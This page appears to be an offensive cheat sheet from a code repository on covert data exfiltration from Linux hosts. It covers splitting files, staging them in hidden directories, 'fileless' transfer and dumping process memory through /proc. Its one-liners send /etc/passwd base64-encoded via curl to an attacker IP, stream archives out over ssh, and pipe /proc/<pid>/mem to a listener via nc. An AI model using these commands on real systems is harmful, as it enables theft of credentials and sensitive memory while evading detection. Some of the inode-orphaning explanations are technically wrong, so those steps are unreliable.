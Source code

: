 #### Split Files for Stealthy Exfiltration
- **Using `split` to break up large files:**
     ```bash
     split -b 10M <file_name> <prefix>
     ```

#### Staging Exfiltration Using Hidden Files
- **Hide files in hidden directories:**
	```bash
	mkdir /tmp/.hidden
	mv <file_to_hide> /tmp/.hidden/
	```

#### Using Orphaned Files via Inodes
- **Create a file without a directory entry:** Create an orphaned file (still accessible via its inode) by writing directly to an inode number.
	```bash
	cp <file> /tmp/.hidden && rm <file>
	```
- **Access via inode:**
	```bash
	find /tmp/.hidden -inum <inode_number> -exec cp {} <new_path> \;
	```
- **Create file without directory listing:**
	```bash
	unlink <file_path>; cp /dev/null <hidden_file>
	```

#### Fileless Data Exfiltration
- **Exfiltrate data from memory directly:**
	```bash
	echo $(< /etc/passwd) | base64 | curl -X POST -d @- http://<attack_ip>/upload
	```
- **Exfiltrate Data Without Creating Local Files:**
	```bash
	curl -X POST --data-binary @<(echo "Sensitive Data") http://<remote_ip>/upload
	```
- **Stream Data Directly to a Remote Server:**
	```bash
	tar czf - /path/to/directory | ssh <username>@<remote_ip> 'cat > /path/to/remote_directory/backup.tar.gz'
	```

#### Process Memory Dumping via `/proc`
- **Access process memory and pipe to local file:**
	```bash
	cat /proc/<pid>/mem > <memory_dump>
	```
- **Access process memory directly and exfiltrate sensitive data:**
     ```bash
     cat /proc/<pid>/mem | nc <attack_ip> <attack_port>
     ```
